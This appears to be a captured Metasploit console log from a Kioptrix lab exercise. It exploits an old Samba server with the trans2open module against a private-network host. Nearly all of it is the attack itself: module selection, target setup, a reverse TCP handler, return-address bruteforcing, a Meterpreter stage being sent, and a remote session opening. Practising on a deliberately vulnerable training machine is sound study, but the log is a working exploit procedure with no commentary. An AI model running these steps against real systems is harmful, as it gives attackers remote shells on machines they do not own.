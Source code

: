 ```bash
msf5 > workspace
  kioptrix
* **Default
msf5 > workspace kioptrix
[*] Workspace: kioptrix
msf5 > use exploit/linux/samba/trans2open
msf5 exploit(linux/samba/trans2open) > show options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


msf5 exploit(linux/samba/trans2open) > set RHOSTS 192.168.88.129
RHOSTS => 192.168.88.129
msf5 exploit(linux/samba/trans2open) > options
Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.88.129   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


msf5 exploit(linux/samba/trans2open) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


msf5 exploit(linux/samba/trans2open) > run

[*] Started reverse TCP handler on 192.168.88.128:4444
[*] 192.168.88.129:139 - Trying return address 0xbffffdfc...
[*] 192.168.88.129:139 - Trying return address 0xbffffcfc...
[*] 192.168.88.129:139 - Trying return address 0xbffffbfc...
[*] 192.168.88.129:139 - Trying return address 0xbffffafc...
[*] Sending stage (985320 bytes) to 192.168.88.129
[*] 192.168.88.129 - Meterpreter session 1 closed.  Reason: Died
[*] Meterpreter session 1 opened (127.0.0.1 -> 192.168.88.129:32800) at 2020-01-02 18:10:24 +0100
[*] 192.168.88.129:139 - Trying return address 0xbffff9fc...
```